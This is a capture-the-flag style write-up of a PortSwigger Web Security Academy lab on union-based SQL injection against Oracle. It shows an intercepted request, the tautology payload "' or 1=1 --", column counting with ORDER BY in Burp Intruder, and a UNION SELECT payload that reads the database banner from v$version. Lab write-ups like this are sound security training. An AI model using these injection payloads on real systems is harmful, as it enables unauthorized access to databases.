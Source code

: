 
<p align="center">
  <img src="./screenshots/sql_logo.png" alt="sql_logo"/>
</p>

---

- 🎯 **Target:** SQL injection Lab - Querying the database type and version on Oracle
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 10.05.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SQL injection (Union Based)

---


## 🔍 Request interception

> SQL injection vulnerability is in the product category filter functionality.

> I intercept the request to select an arbitrary filter (for example `pets`):

```http

GET /filter?category=Pets HTTP/2
Host: 0ae000df049fd3b9888b4dad003a001f.web-security-academy.net
Cookie: session=ywD3y9DTzSh2arJGEXIGyZfWQW2yEvto
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae000df049fd3b9888b4dad003a001f.web-security-academy.net/filter?category=Pets
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> To solve this lab I need to output the version of the database I'm using.

> I use `UNION-based` SQL injection to extract data.

> **Note:** `UNION` is an operator in the `SQL` query language that combines the results of two `SELECT` queries with the same number of columns and compatible data types.
> This way I can extract data from an arbitrary table.

> I check that `SQL` injection is possible:

```http

GET /filter?category=' or 1=1 -- HTTP/2

```
> Result:

![sqli](./screenshots/sqli.png)

> Ok. I determine the number of columns in the table. This is important because `UNION` requires that both parts of the `SELECT` query return the same number of columns.
> I use the `ORDER BY` operator, which is used to sort the query results by one or more columns

> I use `Intruder` to iterate through the columns.
> I generate a text file with numbers from `1 to 10` (for example, no more than 10 columns):

```bash

seq 1 10 > numbers.txt

```

> I start iterating over columns:

![intruder](./screenshots/intruder.png)
![intruder_payload](./screenshots/Intruder_payload.png)

> At position `3` the server returns an error:

![intruder_error](./screenshots/intruder_error.png)

> This means that there are `2` columns in the table.

> To display the Oracle database version, I use the query `SELECT banner FROM v$version`.

> Since there are `2` columns in the table, I add a stopper in the form of `null` so that the number of columns in the two `SELECT` queries matches.

```http

GET /filter?category=' UNION SELECT null,banner FROM v$version -- HTTP/2

```
> Result:

![db_version](./screenshots/db_version.png)

> Getting information about the Oracle Database version.

![solved_lab](./screenshots/solved_lab.png)
